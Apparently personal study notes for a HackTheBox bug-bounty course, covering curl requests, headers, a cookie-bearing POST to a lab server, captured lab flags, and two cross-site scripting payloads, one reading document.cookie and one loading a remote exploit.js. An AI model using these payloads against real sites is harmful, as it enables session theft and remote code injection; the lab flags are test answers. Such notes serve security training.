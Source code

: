 # Bug bounty Hunter path

-------------------------

## Web Requests

> Basic web request

```bash
curl inlanefreight.com
```
> To output raw request


```bash
curl -O inlanefreight.com/index.html
```


> First Flag

`HTB{64$!c_cURL_u$3r}`

> HTTP version 1.X sends requests as clear-text, and uses a new-line character to separate different fields and different requests. HTTP version 2.X, on the other hand, sends requests as binary data in a dictionary form.

> We can use custom User-Agent flags via curl using:

```bash
curl https://www.inlanefreight.com -A 'Mozilla/5.0'
```

> Other headers can be added using '-H' Flag

>Second Flag

`HTB{p493_r3qu3$t$_m0n!t0r}`


> Session Cookie --> 'PHPSESSID=knc0d70407noh2rjb3ds3i144d'


> Third Flag via learning curl post based request json data

```bash
curl 'http://178.62.23.240:31245/search.php'  -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://178.62.23.240:31245/' -H 'Content-Type: application/json' -H 'Origin: http://178.62.23.240:31245' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=knc0d70407noh2rjb3ds3i144d' --data-raw '{"search":"flag"}'                
["flag: HTB{p0$t_r3p34t3r}"] 
```

-----------------------------

## XSS

```js
'**#"><img src=/ onerror=alert(document.cookie)>**'
// Getting file from remote site
'**"><script src=//www.example.com/exploit.js></script>**'

```
-----------------------------
# INFORMATION GATHERING PHASE:
